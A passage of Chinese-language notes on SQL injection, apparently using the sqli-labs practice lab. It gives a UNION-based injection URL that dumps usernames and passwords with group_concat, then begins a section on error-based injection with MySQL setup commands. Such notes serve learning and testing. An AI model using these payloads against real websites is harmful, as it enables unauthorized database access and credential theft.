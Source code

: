 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603205119326.png" alt="image-20230603205119326" style="zoom:50%;" />

### 10、拖库

小技巧：在`group_concat()`内可以使用`'~'`来分割用户名和密码

```
http://192.168.231.129:9001/Less-1/?id=-1' union select 1,group_concat(username,'~',password),3 from users--+
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603205548687.png" alt="image-20230603205548687" style="zoom:50%;" />

## 报错注入

> 触发条件：后台将所有报错信息直接显示出来

### 前置知识

```
mysql> create databases ctfsu charset utf8;
mysql> create table xml(doc varchar(150));
Query OK, 0 rows affected (0.01 sec)

mysql> insert into xml values('
    '> <book>
    '> <tittle>A bad boy how to get a girlfriend</tittle>
    '> <author>
    '> <initial>Love</initial>
    '> <surname>benben</surname>
    '> </author>
    '> </book>
    '> ');
Query OK, 1 row affected (0.01 sec)

```